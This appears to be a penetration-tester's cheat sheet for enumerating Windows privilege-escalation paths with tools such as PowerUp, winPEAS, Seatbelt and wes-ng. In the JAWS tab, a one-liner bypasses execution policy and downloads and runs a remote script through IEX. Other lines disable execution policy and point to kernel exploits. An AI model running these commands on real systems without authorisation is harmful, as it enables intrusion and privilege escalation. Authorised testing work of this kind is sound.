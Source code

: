 # enumeration\_auto

## Path fix

```powershell
set PATH=C:\Windows;C:\Windows\system32;C:\Windows\System32\Wbem;C:\Windows\System32\WindowsPowerShell\v1.0\;%PATH%

Get-ExecutionPolicy -List
Set-ExecutionPolicy Unrestricted
```

## Check Arch, Process, Release ID

```powershell
PS> [system.environment]::Is64BitOperatingSystem
PS> [system.environment]::Is64BitProcess
> echo %PROCESSOR_ARCHITECTURE%
PS> (Get-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion" -Name ReleaseId).ReleaseId
```

## [PowerUp.ps1](https://github.com/PowerShellEmpire/PowerTools/blob/master/PowerUp/PowerUp.ps1) | [Sherlock.ps1](https://github.com/rasta-mouse/Sherlock/blob/master/Sherlock.ps1) | [JAWS.ps1](https://github.com/411Hall/JAWS/blob/master/jaws-enum.ps1) | [enjoiz-privesc.ps1](https://github.com/enjoiz/Privesc/blob/master/privesc.ps1)

{% tabs %} {% tab title="PowerUp.ps1" %}

```powershell
# located at /usr/share/windows-resources/powersploit/Privesc/PowerUp.ps1

> powershell.exe -exec bypass -Command "& {Import-Module .\PowerUp.ps1; Invoke-AllChecks}"
[OR]
PS> . .\PowerUp.ps1
PS> Invoke-AllChecks
```

{% endtab %}

{% tab title="Sherlock.ps1" %}

```powershell
> powershell.exe -exec bypass -Command "& {Import-Module .\Sherlock.ps1; Find-AllVulns}"
[OR]
PS> . .\Sherlock.ps1
PS> Find-AllVulns
```

{% endtab %}

{% tab title="JAWS.ps1" %}

```powershell
# located at /opt/JAWS/jaws-enum.ps1

> powershell -exec bypass IEX(New-Object Net.WebClient).downloadString('http://IP/jaws.ps1')
```

{% endtab %}

{% tab title="enjoiz-privesc.ps1" %}

```powershell
# located at /opt/Privesc/privesc.ps1
> powershell.exe -exec bypass -Command "& {Import-Module .\p.ps1; Invoke-Privesc -Groups 'Users,Everyone,Authenticated Users' -Whoami -Extended -Long}"
```

{% endtab %} {% endtabs %}

## [winPEAS ](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)| [Seatbelt ](https://github.com/GhostPack/Seatbelt)| [SharpUp](https://github.com/GhostPack/SharpUp)

{% tabs %} {% tab title="winPEAS" %}

```powershell
# need .NET 4.0
# cmd check
> dir /b %windir%\Microsoft.NET\Framework\v*
> reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\NET Framework Setup\NDP"
> reg query "HKLM\SOFTWARE\Microsoft\Net Framework Setup\NDP\v4" /s

# check for .NET using PS
PS> cmd.exe /c dir /b %windir%\Microsoft.NET\Framework\v*
PS> Get-ChildItem 'HKLM:\SOFTWARE\Microsoft\NET Framework Setup\NDP' -Recurse | Get-ItemProperty -Name version -EA 0 | Where { $_.PSChildName -Match '^(?!S)\p{L}'} | Select PSChildName, version

winPEASany.exe quiet [cmd fast] [flag]
# systeminfo; userinfo; processinfo;
# servicesinfo; applicationsinfo; networkinfo;
# windowscreds; browserinfo; filesinfo; eventsinfo
```

{% endtab %}

{% tab title="Seatbelt" %}

```powershell
# located at /usr/share/windows-resources/Ghostpack-CompiledBinaries/

> .\Seatbelt.exe -group=[all | <check>] -outputfile="FULL-PATH"
```

{% endtab %}

{% tab title="SharpUp" %}

```powershell
# located at /usr/share/windows-resources/Ghostpack-CompiledBinaries/

> .\SharpUp.exe
```

{% endtab %} {% endtabs %}

## [windows-exploit-suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester) | [wes-ng](https://github.com/bitsadmin/wesng)

{% tabs %} {% tab title="windows-exploit-suggester" %}

```bash
# needs python2
# copy .
# FIX: python2 -m pip install 'xlrd==1.2.0'

./windows-exploit-s.py --update
./windows-exploit-s.py -d <DB-FILE> -i <SYSTEMINFO.txt> [--hotfixes <>]

# if cannot get hotfixes using systeminfo
wmic qfe list full
```

{% endtab %}

{% tab title="wes-ng" %}

```bash
python3 /opt/wesng/wes.py sys.txt --update
python3 /opt/wesng/wes.py systeminfo.txt [--exploits-only] -o wes.csv
# --impact | -i "Remote Code Execution" | "Elevation of Privilege"
# --severity critical
```

{% endtab %} {% endtabs %}

{% embed url="https://github.com/SecWiki/windows-kernel-exploits" %}

